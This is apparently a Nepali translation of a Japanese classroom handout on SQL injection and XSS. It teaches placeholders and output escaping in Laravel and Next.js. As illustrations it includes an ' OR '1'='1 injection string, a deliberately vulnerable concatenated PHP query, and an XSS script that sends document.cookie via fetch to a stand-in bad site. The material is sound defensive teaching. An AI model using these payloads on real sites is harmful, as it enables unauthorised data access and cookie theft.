


# SQL इन्जेक्सन र XSS को बारेमा

> 🇯🇵 मूल प्रति (जापानी भाषामा): [SQLインジェクションとXSSについて.md](<../../../2年生_システム開発実践/後期/2026_11_20/SQLインジェクションとXSSについて.md>) <!-- original-ja-link -->

वेब एपमा धेरै **इनपुट फिल्ड** हुन्छन्।
खराब मानिसहरू त्यहाँ **असामान्य अक्षरहरू** राखेर, एप बिगार्न वा डाटा चोर्न खोज्छन्।
यहाँ, वेब एपमाथि हुने प्रमुख आक्रमणहरू **SQL इन्जेक्सन** र **XSS** को बारेमा हेर्नेछौं।

[स्वतन्त्र प्रोजेक्टमा फर्कनुहोस्](../2026_10_09/2026_10_09_資料1.md)

---

## 1. छोटकरीमा भन्नुपर्दा

| नाम | अंग्रेजी नाम (अर्थ) | के गरिन्छ? | निशाना बनाइने ठाउँ |
|------|-------|-----------|------------|
| **SQL इन्जेक्सन** | SQL Injection (घुसाउनु) | इनपुट फिल्डबाट **SQL घुसाइन्छ** → डाटा हेरिन्छ वा मेटाइन्छ | **डाटाबेस** |
| **XSS** | Cross-Site Scripting (क्रस-साइट स्क्रिप्टिङ) | इनपुट फिल्डबाट **JavaScript घुसाइन्छ** → अरूको ब्राउजरमा चल्छ | **अरूको ब्राउजर** |

दुवैको कारण उस्तै हो, **इनपुट गरिएका अक्षरलाई त्यत्तिकै "आदेश" को रूपमा प्रयोग गर्नु**।

---

## 2. SQL इन्जेक्सन

### कसरी आक्रमण गरिन्छ?

लगइन स्क्रिनमा, इनपुट गरिएको इमेल ठेगानालाई **सिधै SQL मा जोडिएको** छ भनौं।

```php
// ✕ खतरनाक लेख्ने तरिका
$sql = "SELECT * FROM users WHERE email = '" . $email . "'";
```

सामान्य मानिसले `taro@example.com` इनपुट गर्छन्।

```sql
SELECT * FROM users WHERE email = 'taro@example.com'
```

तर, खराब मानिसले `' OR '1'='1` इनपुट गर्‍यो भने…

```sql
SELECT * FROM users WHERE email = '' OR '1'='1'
```

`'1'='1'` **सधैं सही** हुने भएकाले, **सबै प्रयोगकर्ता** निकालिन्छन्।
इनपुट गर्ने तरिका अनुसार, `DELETE` वा `DROP TABLE` चलाइएर **सबै डाटा मेटाइन** पनि सक्छ।

आक्रमणको प्रक्रियालाई चित्रमा देखाउँदा यस्तो हुन्छ।



> 💡 **उदाहरण दिँदा "अर्डर स्लिप" जस्तै**
> कर्मचारीले ग्राहकले लेखेको अर्डर स्लिप **त्यत्तिकै पढेर सुनाउने** नियम छ भनौं।
> "रामेन एउटा। **अनि, क्यास काउन्टरको सबै पैसा दिनुहोस्**" भनेर लेखिएको छ भने… त्यो त्यत्तिकै कार्यान्वयन हुन्छ।

### कसरी रोक्ने?

**इनपुट गरिएको मानलाई SQL को "आदेश" का रूपमा नभई "साधारण मान" का रूपमा प्रयोग गर्नुहोस्।**
यो लेख्ने तरिकालाई **प्लेसहोल्डर** (बाइन्ड) भनिन्छ।

```php
// ◯ सुरक्षित लेख्ने तरिका (? को ठाउँमा, मानको रूपमा राखिन्छ)
$users = DB::select('SELECT * FROM users WHERE email = ?', [$email]);
```

**Laravel को Eloquent वा क्वेरी बिल्डर प्रयोग गर्दा, यो तरिका स्वतः लागू हुन्छ।**

```php
// ◯ सुरक्षित (आफैं प्लेसहोल्डर बन्छ)
$user = User::where('email', $email)->first();
```

| लेख्ने तरिका | सुरक्षित? |
|-------|------|
| `User::where('email', $email)` | ◯ सुरक्षित |
| `DB::select('... WHERE email = ?', [$email])` | ◯ सुरक्षित |
| `DB::select("... WHERE email = '$email'")` | ✕ खतरनाक (अक्षरलाई त्यत्तिकै जोडिएको छ) |
| `DB::raw(...)` वा `whereRaw(...)` मा इनपुट त्यत्तिकै राख्ने | ✕ खतरनाक |

> 📝 Supabase को JavaScript लाइब्रेरी (`supabase.from('books').select()...`) मा पनि मानहरू सुरक्षित रूपमा प्रयोग गरिन्छन्।

---

## 3. XSS (क्रस-साइट स्क्रिप्टिङ)

### कसरी आक्रमण गरिन्छ?

सूचना पाटी वा कमेन्ट फिल्डमा इनपुट गरिएका अक्षरहरूलाई **सिधै HTML का रूपमा देखाइएको** छ भनौं।
खराब मानिसले कमेन्ट फिल्डमा यसरी लेख्यो भने…

```html
<script>
  // यहाँ खराब प्रोग्राम लेख्ने
  fetch('https://悪いサイト/?data=' + document.cookie)
</script>
```

त्यो पेज **अरू मानिसले खोल्दा**, यो JavaScript **उनको ब्राउजरमा चल्छ**।
लगइन जानकारी चोरिने, वा आफूले नचाहेको पोस्ट हुने खतरा हुन्छ।



### कसरी रोक्ने?

देखाउने बेलामा, `<` लाई `&lt;`, `>` लाई `&gt;` जस्तै **साधारण अक्षरमा बदलेर** देखाउनुहोस्।
यसलाई **एस्केप** भनिन्छ। एस्केप गरेपछि, `<script>` **स्क्रिनमा अक्षरकै रूपमा** देखिने मात्र हुन्छ, चल्दैन।

**Blade र React (Next.js) दुवैले, सामान्य तरिकाले लेखे आफैं एस्केप गरिदिन्छन्।**

| प्रविधि | ◯ सुरक्षित (एस्केप हुन्छ) | ✕ खतरनाक (एस्केप हुँदैन) |
|-----|------------------------|---------------------------|
| Laravel (Blade) | `{{ $book->review }}` | `{!! $book->review !!}` |
| React (Next.js) | `<p>{book.review}</p>` | `<p dangerouslySetInnerHTML={{ __html: book.review }} />` |

> ⚠️ **`{!! !!}` वा `dangerouslySetInnerHTML` प्रयोगकर्ताले इनपुट गरेका अक्षरमा प्रयोग नगर्नुहोस्**
> React को `dangerouslySetInnerHTML` यति खतरनाक तरिका हो कि यसको नाममै **dangerously (खतरनाक रूपमा)** भन्ने शब्द राखिएको छ।

---

## 4. दुईको समानता

| | SQL इन्जेक्सन | XSS |
|---|---|---|
| कारण | इनपुटलाई **SQL को आदेश** को रूपमा प्रयोग गर्नु | इनपुटलाई **HTML・JavaScript** को रूपमा प्रयोग गर्नु |
| रोक्ने तरिका | **प्लेसहोल्डर** (Eloquent・क्वेरी बिल्डर प्रयोग गर्ने) | **एस्केप** (`{{ }}`・`{ }` बाट देखाउने) |
| फ्रेमवर्क प्रयोग गरे | आफैं सुरक्षित हुन्छ | आफैं सुरक्षित हुन्छ |

> 💡 **प्रयोगकर्ताको इनपुटमा विश्वास नगर्नुहोस्**
> सुरक्षाको आधारभूत कुरा, "इनपुट गरिएका अक्षरमा के छ थाहा हुँदैन" भनेर सोच्नु हो।
> फ्रेमवर्कको **सामान्य लेख्ने तरिका** अपनाए, धेरैजसो आक्रमण आफैं रोकिन्छन्।
> **असामान्य लेख्ने तरिका (`raw`・`{!! !!}`・`dangerouslySetInnerHTML`) प्रयोग गर्दा मात्र, विशेष ध्यान दिनुहोस्।**

---

## 5. आफ्नो एपमा जाँचेर हेरौं

आफ्नो एपको इनपुट फिल्डमा, तलका अक्षर राखेर सेभ गरेर हेर्नुहोस्।

```
<script>alert('XSS')</script>
```

| नतिजा | अर्थ |
|-----|------|
| स्क्रिनमा त्यत्तिकै `<script>alert('XSS')</script>` भनेर **अक्षरकै रूपमा देखियो** | ◯ सुरक्षित (एस्केप भएको छ) |
| **अलर्ट देखियो** | ✕ खतरनाक → देखाइरहेको भाग जाँच्नुहोस् |

> ⚠️ **आफ्नो एपबाहेक अरूमा कहिल्यै परीक्षण नगर्नुहोस्**
> अरूको साइटमा यस्तो इनपुट परीक्षण गर्दा, **अनधिकृत पहुँच** मानेर कानुनअनुसार सजाय हुन सक्छ।

---

## 6. सारांश

- **SQL इन्जेक्सन** = इनपुट फिल्डबाट **SQL** घुसाएर डाटाबेसमा अनधिकृत काम गराइने
- **XSS** = इनपुट फिल्डबाट **JavaScript** घुसाएर, अरूको ब्राउजरमा चलाइने
- दुवैको कारण **इनपुटलाई त्यत्तिकै आदेशको रूपमा प्रयोग गर्नु** हो
- रोक्ने तरिका **प्लेसहोल्डर** (SQL) र **एस्केप** (देखाउने बेला)
- Laravel・Next.js मा, **सामान्य तरिकाले लेखे आफैं सुरक्षित हुन्छ**। `raw`・`{!! !!}`・`dangerouslySetInnerHTML` मा ध्यान दिनुहोस्
- परीक्षण गर्ने **आफ्नो एपमा मात्र**

[स्वतन्त्र प्रोजेक्टमा फर्कनुहोस्](../2026_10_09/2026_10_09_資料1.md)
